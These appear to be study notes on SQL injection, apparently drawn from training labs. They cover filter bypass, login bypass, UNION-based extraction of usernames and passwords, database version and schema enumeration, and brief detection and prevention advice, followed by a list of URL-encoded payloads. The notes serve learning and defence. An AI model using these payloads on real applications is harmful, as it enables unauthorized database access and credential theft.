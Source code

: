 # **SQL Injection** 
### Retrieving hidden data, where can modify an SQL query to return additional results 
[https://insecure-website.com/products?category=Gifts]

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1` 

[https://insecure-website.com/products?category=Gifts%27--]

`SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1` 

[https://insecure-website.com/products?category=Gifts%27+OR+1=1--]

`SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1` 
### Subverting application logic, where you can change a query to interfere with the application's logic
 If a users credential is wiener:bluecheese 

`SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'` 
`SELECT * FROM users WHERE username = 'administrator'--' AND password = ''` 
### UNION attacks, where you can retrieve data from different database tables 
`SELECT name, description FROM products WHERE category = 'Gifts'` `' UNION SELECT username, password FROM users--` 
This will cause the application to return all usernames and passwords along with the names and descriptions of products. Examining the database, where you can extract information about the version and structure of the database 
`SELECT * FROM information_schema.tables` -- what DB table exist 
`SELECT * FROM v$version` -- Oracle version 
### Blind SQL injection, where the results of a query you control are not returned in the applications' responses 
## How to detect SQLi Vuln? 
1. Submitting ' 
2. Submitting SQL-Syntax 
3. Submitting Boolean OR 1=1 OR 1=2 
4. Submitting OAST payload
## Prevent SQLi 
Mostly by using parameterized queries (prepared statements) instead of string concatenation within query (edited)
## Some Useful Commands
###### SQL injection UNION attack, retrieving multiple values in a single column
`'+UNION+SELECT+NULL,username||'~'||password+FROM+users--` 
###### SQL injection attack, querying the database type and version on Oracle 
`'+UNION+SELECT+'abc','def'+FROM+dual--`
`'+UNION+SELECT+BANNER,+NULL+FROM+v$version--` 
###### SQL injection attack, querying the database type and version on MySQL and Microsoft 
`'+UNION+SELECT+'abc','def'#` `'+UNION+SELECT+@@version,+NULL#` 
###### SQL injection attack, listing the database contents on non-Oracle databases 
`'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--` `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--` `'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--` 
###### SQL injection attack, listing the database contents on Oracle 
`'+UNION+SELECT+table_name,NULL+FROM+all_tables--` `'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--` `'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--` . 
###### Use the following payload to retrieve the list of tables in the database: 
`'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--` 
###### To get column available in the specified table named 'users_cwrebz' 
`'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_cwrebz'--` 
###### To list all available list of tables in a database 
`'+UNION+SELECT+table_name,NULL+FROM+all_tables--`